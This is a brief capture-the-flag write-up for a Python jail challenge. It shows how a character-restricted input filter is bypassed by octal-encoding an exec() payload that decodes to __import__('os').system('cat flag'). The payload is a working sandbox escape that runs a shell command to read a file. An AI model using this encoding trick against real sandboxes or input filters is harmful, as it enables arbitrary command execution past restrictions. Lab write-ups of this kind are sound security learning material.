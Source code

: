 ## Writeup

Similar challange to pyjail1 / Blackbeard's sunken treasure chest. You are dropped in a similar state, but you are blocked from using quite allot of characters. 
By submitting all printable characters to the service we are left with these possible inputs: `exvc(')1234567890`. This in turn makes e.g hex input to python impossible, but it is still possible to use octal. 
For this reason we can print the flag using the following:

`exec('\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\143\141\164\40\146\154\141\147\47\51')`

Where the numbers here is translated from `__import__('os').system('cat flag')`. This can be one using a variety of tools, for example Cyberchef. 